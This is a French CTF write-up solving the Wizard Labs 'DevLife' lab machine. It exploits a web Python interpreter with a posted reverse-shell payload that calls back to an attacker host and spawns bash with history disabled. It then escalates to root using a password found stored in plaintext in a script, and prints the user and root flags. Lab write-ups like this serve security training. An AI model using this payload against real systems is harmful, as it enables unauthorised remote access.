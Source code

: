```yaml
---
title: Solution du CTF DevLife de Wizard Labs
tags: [CTF,WizardLabs]
---
```


The Meaning of Life
-------------------

Sur ce CTF facile de [Wizard Labs](https://labs.wizard-security.net/) se trouve un site web d'un certain *Teddy Smith* indiquant qu'il travaille sur un interpréteur Python pour le web.  

Du coup on n'est pas trop surpris de trouver ceci à l'URL */dev* :  

![WizardLabs CTF Devlife python interpreter RCE](https://raw.githubusercontent.com/devl00p/blog/master/images/wizard-labs/devlife_interpreter.png)

On remarque vite que l'output des commandes ne nous est pas retourné. Il semble aussi que l'interpréteur a du mal à digérer les double-quotes, peut être le signe d'une injection de commande shell (on peut imaginer un appel du type *python2 -c "your\_payload\_here"*).  

Vu que l'on a du Python, autant s'y tenir. J'ai fait le script suivant pour passer plusieurs lignes au script PHP :  

```python
import requests

backdoor = (
    "import os;"
    "import socket;"
    "import pty;"
    "s=socket.socket();"
    "s.connect(('10.254.0.29',7777));"
    "os.dup2(s.fileno(),0);"
    "os.dup2(s.fileno(),1);"
    "os.dup2(s.fileno(),2);"
    "os.putenv('HISTFILE','/dev/null');"
    "pty.spawn('/bin/bash');"
    "s.close()"
)

response = requests.post(
        "http://10.1.1.20/dev/interpreter.php",
        data={"com": backdoor}
)
print(response.text)
```

Pour le néophyte Python, l'absence de virgules dans la variable *backdoor* n'est pas une typo, juste une façon de rendre plus lisible une longue chaîne.  

man sudoers
-----------

Une fois notre shell obtenu en tant que *www-data* j'ai vite remarqué différents scripts en relation avec *sudo* ou *su* :  

```plain
www-data@Devlife:/var/www/html/dev$ w
 13:38:45 up  2:13,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
root     tty1     -                11:26    2:10m  0.13s  0.05s nano sudo.py
www-data@Devlife:/var/www/html/dev$ last
tedd     pts/1        10.253.0.158     Sun Dec 23 13:21 - 13:22  (00:01)
root     tty1                          Sun Dec 23 11:26   still logged in
reboot   system boot  4.9.0-7-amd64    Sun Dec 23 11:25   still running
reboot   system boot  4.9.0-7-amd64    Sun Dec 23 11:21   still running
tedd     pts/1        10.254.0.6       Mon Sep 17 16:13 - 16:49  (00:36)
reboot   system boot  4.9.0-7-amd64    Sat Sep 15 21:19   still running

wtmp begins Sat Sep 15 21:19:20 2018
```

Même chose pour l'utilisateur *tedd* (en plus de son flag) :  

```
www-data@Devlife:/var/www/html/dev$ cat /home/tedd/user.txt
529c7a0e511974d8e8761430bb8a12bf93e44406

www-data@Devlife:/home/tedd/.env$ cat su.py

import pexpect
child = pexpect.spawn('su root')
child.expect ('Password:')
child.sendline('teddyxy2019')
child.expect('\$')
child.sendline('whoami')
```

Stockage du mot de passe... mauvaise idée :p  

Les utilisateurs *tedd* et *root* partagent le même mot de passe.  

```plain
root@Devlife:~# cat /root/root.txt
d360adc7e9c5ceb3588a79bd88e3cec7a5d14368
```


*Published April 04 2019 at 18:05*
